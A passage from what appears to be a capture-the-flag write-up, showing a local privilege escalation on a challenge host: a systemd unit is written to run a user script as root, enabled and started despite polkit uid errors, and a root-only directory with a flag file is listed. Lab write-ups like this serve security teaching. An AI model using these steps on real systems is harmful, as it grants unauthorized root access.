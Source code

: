 Now we can create a service that will execute our script. This service will run with root privilages so it will be able to execute our command without a problem.

```text
elf@northpole:~$ cat <<EOF > /home/elf/vulnerable.service
> [Unit]
> Description=pwn
> After=network.target
>  
> [Service]
> ExecStart=/home/elf/dup.sh
> ExecReload=/home/elf/dup.sh
> Restart=on-failure
> RuntimeDirectoryMode=0755
>  
> [Install]
> WantedBy=multi-user.target
> Alias=vulnerable.service
> EOF
```

Now it's just a matter of enabling and starting the service.

``text
elf@northpole:~$ systemctl enable /home/elf/vulnerable.service
(process:178): GLib-GObject-WARNING **: value "-274786072" of type 'gint' is invalid or out of range for property 'uid' of type 'gint'
**
ERROR:pkttyagent.c:175:main: assertion failed: (polkit_unix_process_get_uid (POLKIT_UNIX_PROCESS (subject)) >= 0)
Created symlink /etc/systemd/system/vulnerable.service → /home/elf/vulnerable.service.
Created symlink /etc/systemd/system/multi-user.target.wants/vulnerable.service → /home/elf/vulnerable.service.
elf@northpole:~$ systemctl start vulnerable.service

(process:195): GLib-GObject-WARNING **: value "-274786072" of type 'gint' is invalid or out of range for property 'uid' of type 'gint'
**
ERROR:pkttyagent.c:175:main: assertion failed: (polkit_unix_process_get_uid (POLKIT_UNIX_PROCESS (subject)) >= 0)
```

And now we have a new file in our directory. 

```text
elf@northpole:~$ cat root_dir
cat: root_dir: No such file or directory
elf@northpole:~$ cat dir     
total 4
drwx------  3 root root 1024 Dec  7 22:07 .
drwxr-xr-x 19 root root 1024 Dec  7 21:14 ..
lrwxrwxrwx  1 root root    9 Dec  7 22:07 .bash_history -> /dev/null
-r--------  1 root root   29 Dec  7 22:06 flag
drwx------  2 root root 1024 Dec  7 22:31 lost+found
```

